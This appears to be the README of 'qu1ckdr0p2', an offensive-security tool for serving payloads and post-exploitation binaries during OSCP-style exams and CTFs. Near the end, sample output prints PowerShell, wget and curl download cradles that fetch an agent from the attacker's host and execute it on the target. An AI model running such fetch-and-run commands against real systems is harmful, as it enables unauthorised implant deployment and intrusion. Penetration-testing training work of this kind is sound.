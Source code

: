 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve -f implant.bin --https 443
```
```zsh
serv serve -f file.example --http 8080
```

## Update and help
```zsh
  serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
  serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
  serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
serv init --update
```
```zsh
serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```




## License

MIT

---


